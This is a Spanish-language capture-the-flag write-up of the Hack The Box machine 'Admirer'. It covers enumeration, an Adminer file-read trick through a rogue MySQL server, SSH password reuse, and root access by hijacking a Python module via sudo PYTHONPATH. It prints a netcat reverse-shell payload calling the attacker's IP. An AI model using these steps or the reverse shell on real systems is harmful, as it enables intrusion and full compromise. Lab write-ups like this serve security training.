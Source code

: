 # Admirer WriteUp
Volver al [Indice](README.md)

Comenzamos con la segunda máquina de HTB, en este caso como acaba de ser retirada, les traigo la máquina "Admirer", ha sido creada por "polarbearer & GibParadox", cuenta con una dificultad de 5.3 sobre 10, por lo que se encuentra en el rango de "Medium" y tiene una puntuación de 3.4 sobre 5.

----------------------------------------------------------------------------------------------------------------------------------------------------------------------
## *# Enumeración*  
Como normalmente, vamos a lanzar un nmap a los 65535 puertos para enumerar rápidamente los servicios de la máquina.

![nmap1](images/htb/admirer/nmap1.png)

Después vamos a lanzar otro nmap para verificar los servicios y la versión de estos.

![nmap2](images/htb/admirer/nmap2.png)

Vemos que tiene:
* Puerto 21 => un FTP (pero sin acceso anónimo habilitado).
* Puerto 22 => Encontramos el servicio SSH (pero se encuentra en una versión en la que no podemos explotar prácticamente nada, así que no vamos a  buscar ningún exploit).
* Puerto 80 => Con un apache (Al acceder a él solo vemos la página inicial).

Viendo esto, vamos a lanzar la herramienta dirsearch en búsqueda de directorios. Nos encuentra simplemente el directorio **"robots.txt"** de interés.

![dirsearch1](images/htb/admirer/dirsearch.png)

Accedemos al directorio robots y encontramos que existe un directorio llamado "admin-dir" el cual parece basante interesante.

Lo colocamos a ver que contiene y vemos que nos da un error 403(Forbidden).

![robots](images/htb/admirer/robots.png)

Pero... Este error 403 no nos impide lanzar una busqueda con dirsearch a ese directorio... Si encontramos algo podríamos acceder a el saltándonos este error.

![dirsearch2](images/htb/admirer/dirsearch2.png)

¡Perfecto!, hemos encontrado 2 directorios con código 200, descargamos los ficheros y encontramos las credenciales para acceder al FTP.

![files](images/htb/admirer/files.png)

Accedemos al FTP y encontramos 2 ficheros (uno contiene un dump de la BD y el otro un archivo comprimido).

![ftp](images/htb/admirer/ftp.png)

En el archivo **"dump.sql"** no encontramos nada pero al descomprimir el otro archivo encontramos varios directorios que parecen un backup de la web.

Entre ellos hay un directorio al que podemos acceder vía web con varios scripts, pero no contienen nada lo suficientemente relevante.

Lanzamos una búsqueda con dirsearch a este directorio y nos encuentra un archivo el cual nos lleva a una aplicación web para conectar con una base de datos. 

Probamos credenciales por defecto y otras que hemos encontrado en alguno de los archivos anteriores descomprimidos pero no tenemos acceso.

![dirsearch3](images/htb/admirer/dirsearch3.png)

![adminer](images/htb/admirer/adminer.png)

Comprobamos en Google si encontramos alguna vulnerabilidad y/o exploit para esta aplicación (Adminer 4.6.2) y **¡BIEN!**, existe una vulnerabilidad para poder acceder a ella sin credenciales.  
Creando una base de datos localmente y accediendo a ella a través de esta aplicación podríamos visualizar el contenido.

Dejo el enlace a la página donde encontré la vulnerabilidad: [https://www.foregenix.com/blog/serious-vulnerability-discovered-in-adminer-tool](https://www.foregenix.com/blog/serious-vulnerability-discovered-in-adminer-tool)

## *# Explotación*
Dejo por aquí los pasos que he seguido para crear la base de datos en mi equipo, decir que si vosotros no usáis las mismas versiones o aplicaciones que yo pueden variar:
* CREATE DATABASE admirer;
* CREATE USER 'borb3d'@'%' IDENTIFIED BY 'borb3d';
* GRANT ALL PRIVILEGES ON * . * TO 'borb3d'@'%';
* FLUSH PRIVILEGES;
* use admirer;
* create table test(data VARCHAR(255));
* En el archivo "/etc/mysql/mariadb.conf.d/50-server.cnf" debemos de añadir la línea "bind-address      =0.0.0.0"
* Reiniciamos el servicio (systemctl restart mysql)

![database](images/htb/admirer/DB1.png)
![dbConf](images/htb/admirer/dbConf.png)

Con esto ya podríamos volver a la aplicación web y acceder con nuestros datos.

![dbLogin](images/htb/admirer/dbLog.png)

Y ¡estamos dentro!

![dbOkLog](images/htb/admirer/dbOkLog.png)

Ya dentro de la aplicación, accedemos al apartado "Comando SQL" para poder ejecutar nuestra consulta y ver datos que no se deberían ver.

En este apartado lanzamos la siguiente consulta:
> load data local infile '../index.php'
  into table test
  fileds terminated by "/n"

![queryOK](images/htb/admirer/queryOk.png)

Después de esto solo tenemos que ir a la pestaña "registros", a la izquierda, para poder visualizar nuestra consulta.

![bdCred](images/htb/admirer/BDcred.png)

Ya tenemos las credenciales, vamos a probar con el servicio SSH por si han reutilizado las contraseñas.

Y parece que **SI**, conseguimos conectarnos al servidor como el usuario "Waldo", cogemos la flag de user y seguimos.

![userFlag](/images/htb/admirer/userFlag.png)

## *# Post-Explotación*
Vamos a ver como podríamos escalar privilegios por aquí.  
Como siempre, vamos a probar con el comando sudo -l para ver que privilegios tenemos como ROOT, y vemos que poseemos este privilegio.  
```(ALL) SETENV: /opt/scripts/admin_tasks.sh```

![sudo -l](images/htb/admirer/sudo-l.png)

Examinamos a fondo ese script y vemos que está todo correcto en cuanto a rutas absolutas a los binarios... Pero vemos que en una de las funciones llama a un archivo python del mismo directorio, así que lo revisamos también.

![scriptAdmin](images/htb/admirer/scriptAdmin.png)

Vemos que el archivo llama a una librería, vamos a intentar falsear la ruta de la libreria con PYTHONPATH.

![shutil.py](images/htb/admirer/shutiPY.png)

Para comenzar, vamos a elegir un directorio en el que tengamos permiso de escritura para realizar nuestro script, "/tmp" por ejemplo.  
* Dentro creamos un archivo llamado shutil.py (que es el nombre del módulo que vamos a falsear).
* En el archivo colocamos el código que queramos ejecutar como ROOT (en mi caso, una Reverse Shell) <Debemos mantener la estructura del archivo original(su función con sus parámetros para que no nos de error)>.  

 ~~~
import os  # importamos la librería que vamos a utilizar

def make_archive(a, b, c):  # Definimos la función que llama el script original (manteniendo las 3 variables para que no haya error)
    os.system("nc 10.10.15.81 4444 -e '/bin/sh'")  # Le mandamos nuestra reverse shell para que la ejecute
~~~

![scriptYexec](/images/htb/admirer/scriptYejc.png)

Abrimos otra consola y la dejamos en escucha por el puerto que colocamos anteriormente (en mi caso 4444).

Lanzamos el comando ```'sudo PYTHONPATH=/tmp /opt/scripts/admin_tasks.sh 6'``` (para que nos coja la ruta de nuestra librería falsa en lugar de la original y poder falsearlo) y le pasamos el parámetro 6 que sería el que ejecuta el script de python (se puede lanzar directamente o después).

![flagRoot](images/htb/admirer/flagRoot.png)

y...¡Somos ROOT!
